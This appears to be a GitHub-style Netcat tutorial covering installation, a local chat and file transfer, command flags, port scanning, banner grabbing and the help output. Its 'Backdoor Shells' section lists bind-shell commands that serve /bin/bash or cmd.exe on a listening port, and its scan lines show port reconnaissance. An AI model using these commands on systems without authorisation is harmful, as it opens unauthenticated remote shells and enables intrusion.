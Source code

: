## NetCat
Netcat is a Unix utility which reads and writes data across network connections using TCP or UDP protocol. 

### Tasks that can be done with NetCat:

* Connect to a port of a target host.
* Listen to a certain port for any inbound connections.
* Send data across client and server once the connection is established.
* Transfer files across the network once the connection is established.
* Can execute programs and scripts of the client on the server and vice versa.
* Can Provide remote shell access of server to a client where shell commands can be executed.


## For Windows

[`<Download />`](https://sourceforge.net/projects/nc110/)

## Installation for linux

```js
apt install netcat-traditional
```
or

```js
sudo apt-get install netcat-traditional
```

## A simple client-server connection:

Type this command on the machine terminal. 
1. To perform simple chat.

```sh
## command for terminal 1
nc -l -p 8080
```

```sh
## command for terminal 2
nc 127.0.0.1 8080
```

2. To perform file transfer.

```sh
## command for terminal 1
nc -v -w 30 -l -p 8080 >file.txt
```

```sh
## command for terminal 2
nc -v -w 2 127.0.0.1 8080<file.txt
```

## Netcat Command Flags
```js
nc -4 – use IPv4 only

nc -6 – use IPv6

nc -u – use UDP instead of TCP

nc -k -l – continue listening after disconnection

nc -n – skip DNS lookups

nc -v – provide verbose output
```


## Netcat Port Scanner
```js
nc -zv site.com 80 – scan a single port

nc -zv hostname.com 80 84 – scan a set of individual ports

nc -zv site.com 80-84 – scan a range of ports
```

## Netcat Banners
```js
echo “” | nc -zv -wl [host] [port range] – obtain the TCP banners for a range of ports
```

## Netcat Backdoor Shells
```js
nc -l -p [port] -e /bin/bash – run a shell on Linux

nc -l -p [port] -e cmd.exe – run a shell for Windows
```

### NetCat Help Commands:

```js
$ netcat -h
```

```js
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
 -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```


